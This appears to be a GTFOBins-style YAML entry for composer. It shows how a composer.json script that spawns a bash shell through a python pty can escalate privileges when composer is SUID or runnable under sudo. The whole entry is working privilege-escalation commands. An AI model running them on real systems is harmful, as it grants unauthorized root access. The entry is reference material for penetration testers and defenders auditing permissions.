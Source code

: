 ```yaml
---
functions:
  suid:
    - code: |
        cat << EOF > composer.json
        {
            "scripts": {
                "command": "python3 -c 'import pty;pty.spawn(\"bash\")'"
            }
        }
        EOF
        ./composer run-script command
  sudo:
    - code: |
        cat << EOF > composer.json
        {
            "scripts": {
                "command": "python3 -c 'import pty;pty.spawn(\"bash\")'"
            }
        }
        EOF
        composer run-script command
---
```

